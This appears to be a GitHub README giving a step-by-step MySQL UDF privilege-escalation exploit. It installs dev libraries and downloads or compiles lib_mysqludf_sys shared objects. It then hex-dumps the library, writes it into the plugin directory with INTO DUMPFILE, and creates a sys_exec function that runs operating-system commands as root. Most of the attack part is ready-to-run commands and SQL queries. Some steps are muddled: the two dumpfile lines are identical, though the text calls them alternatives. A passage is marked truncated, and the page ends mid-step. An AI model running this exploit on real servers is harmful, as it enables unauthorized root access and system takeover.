







PRIVILIGE_ESCALATION
# MYSQL UDF EXPLOITATION
{explicitly: Kali Linux }• For this exploit to work we need to have access to MYSQL server as the root user
once this requirement is statisfied we can continue with the exploitation.
# Confirming the Dependencies
Before we can start the exploitation , we need to install some dev libraries for mysql.
commands:
→ apt update
→ apt install default-libmysqld-dev
→ apt install default-libmysqlclient-dev
now we can begin the exploitation phase.
# Compiling the Shared so library
Before we can compile the shared library we need to confirm the architecture of our target system....which on linux we can confirm using the arch command
[The compile versions of the library are also present in the repo]
• For 64-bit arch
→ First we need to Download the source code Files for so library
command: wget https://github.com/SxNade/MYSQL_UDF_exploit/raw/main/mysql_udf_files.zip
This zip File contains the source code file for so library , the source code is taken from https://github.com/mysqludf/lib_mysqludf_sys
once we download the zip file and then extract the zip file we will run the make command to compile the so named lib_mysqludf_sys.so
• For 32-bit arch
→ we need to follow similar approach but this time we will download the 32-bit{yeah just a minor change to MakeFile} zip file
command: wget https://github.com/SxNade/MYSQL_UDF_exploit/raw/main/mysql_32bit_udf_files.zip
Again we will extract this and then Run the make command to compile the so for 32-bit arch
# Precompiled so's
The repoisitory also contains precompiled so's which can be download as Follows
• For 64-bit arch
command: wget https://github.com/SxNade/MYSQL_UDF_exploit/raw/main/mysql_udf_64.so
• For 32-bit arch
command: wget https://github.com/SxNade/MYSQL_UDF_exploit/raw/main/mysql_udf_32.so
# Making the MYSQL userdefined Function
We Login into the Mysql instance as the root user

now we will make a hex dump of the Shared library we compiled and then
⇒ HexDump: xxd -p mysql_udf[32/64].so | tr -d '\n' > mysql_udf[32/64].so.hex
⇒ Copy: cat mysql_udf[32/64].so.hex | xclip -selection clipboard
we have the hex dump of shared library copied to our clipboard...
Now we will move onto making the mysql user defined function for furthur exploitation of the system
• Make a Shell variable containing hex code
⇒ set @shell = 0x<contents we copied from so>; {notice we appended ‘0x’ in start and ‘;’ at end}

{truncated}

• Dumping the contents of shell variable into a shared object File
• Note::-->
In the dumping step we will start by dumping the File into a location We will find by running the Query
SELECT @@plugin_dir;

and we can see that we got /usr/lib/mysql/plugin. we will dump the so into this Dir {which is what we currently have}
⇒ select binary @shell into dumpfile '/usr/lib/mysql_udf_[64/32].so';
• However if it does not work then we will dump the so in the Default /usr/lib dir as shown below
⇒ select binary @shell into dumpfile '/usr/lib/mysql_udf_[64/32].so';
After we are done with the Dump
• Creating the Custom Function which executes system commands as root
⇒ create function sys_exec returns int soname 'mysql_udf_[64/32].so';

Now once the Function is created we can check if it was created or not using the Following Query.
Query: SELECT * FROM mysql.func;

Once we have confirmed the existence we can execute system commands using....
Query: SELECT mysql. sys_exec('command-to-execute');
We can use this Furthur get a root shell...may be as follows

• From our shell access
